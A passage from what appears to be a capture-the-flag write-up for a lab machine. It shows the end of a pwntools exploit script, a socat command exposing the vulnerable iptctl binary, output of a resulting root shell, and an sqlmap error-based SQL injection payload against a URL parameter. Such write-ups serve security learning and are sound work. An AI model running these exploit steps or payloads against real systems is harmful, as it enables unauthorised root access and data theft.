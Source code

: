      37     log.warn("Could not connect to target")
     38     log.warn('Is socat running on target?')
     39     log.warn('TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i" running?')
     40     exit()
     41 p.sendline(payload)
     42 p.interactive()



If I run without starting `socat`, it warns me:



    root@kali# python ./pwn_iptctl.py
    [*] Attempting to connect
    [-] Opening connection to 10.10.10.113 on port 9001: Failed
    [ERROR] Could not connect to 10.10.10.113 on port 9001
    [!] Could not connect to target
    [!] Is socat running on target?
    [!] TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i" running?



Start `socat`:



    penelope@redcross:/dev/shm$ socat TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i"



And exploit to get shell with effective userid of root:



    root@kali# python pwn_iptctl.py
    [*] Attempting to connect
    [+] Opening connection to 10.10.10.113 on port 9001: Done
    [*] Switching to interactive mode
    $ id
    uid=0(root) gid=1000(penelope) egid=0(root) groups=0(root)



## Beyond Root

### SQLi Details

I noticed when I added a `'` to the `o` parameter in the url that I got
a debug statement back from the page:

![](/img/1554221201416.png)

When I ran `sqlmap`, it offered this as one of the proof of concepts to
get data:



        Type: error-based                                                        
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: o=9') AND (SELECT 8387 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(8387=8387,1))),0x7170786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vfSo&page=app
